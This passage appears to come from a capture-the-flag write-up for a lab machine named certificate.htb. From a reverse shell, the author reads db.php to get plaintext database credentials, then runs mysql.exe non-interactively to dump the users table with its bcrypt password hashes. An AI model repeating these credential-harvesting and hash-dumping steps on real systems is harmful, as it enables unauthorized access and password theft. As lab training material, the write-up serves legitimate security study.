# Enumerate the database

After enumerating the file system, I found a `db.php` from `C:\xampp\htdocs\certificate.htb`
```
PS C:\xampp\htdocs\certificate.htb>type db.php
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
}
?>


```
Then we can get the credit of `certificate_webapp_user:cert!f!c@teDBPWD`

Let's interact with `mysql` database `C:\xampp\mysql\bin\mysql.exe`
Since interactive MYSQL has some problems in the rebound shell, a non-interactive way is used here to query
```
PS C:\xampp\mysql\bin> .\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "show databases;"
Database
certificate_webapp_db
information_schema
test
PS C:\xampp\mysql\bin> .\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "use certificate_webapp_db; show tables;"
Tables_in_certificate_webapp_db
course_sessions
courses
users
users_courses
PS C:\xampp\mysql\bin> .\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "use certificate_webapp_db; show tables; select * from users;"
Tables_in_certificate_webapp_db
course_sessions
courses
users
users_courses
id      first_name      last_name       username        email   password        created_at      role    is_active
1       Lorra   Armessa Lorra.AAA       lorra.aaa@certificate.htb       $2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG    2024-12-23 12:43:10     teacher 1
6       Sara    Laracrof        Sara1200        sara1200@gmail.com      $2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK    2024-12-23 12:47:11     teacher 1
7       John    Wood    Johney  johny009@mail.com       $2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq    2024-12-23 13:18:18     student 1
8       Havok   Watterson       havokww havokww@hotmail.com     $2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti    2024-12-24 09:08:04     teacher 1
9       Steven  Roman   stev    steven@yahoo.com        $2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2    2024-12-24 12:05:05     student 1
10      Sara    Brawn   sara.b  sara.b@certificate.htb  $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6    2024-12-25 21:31:26     admin   1
```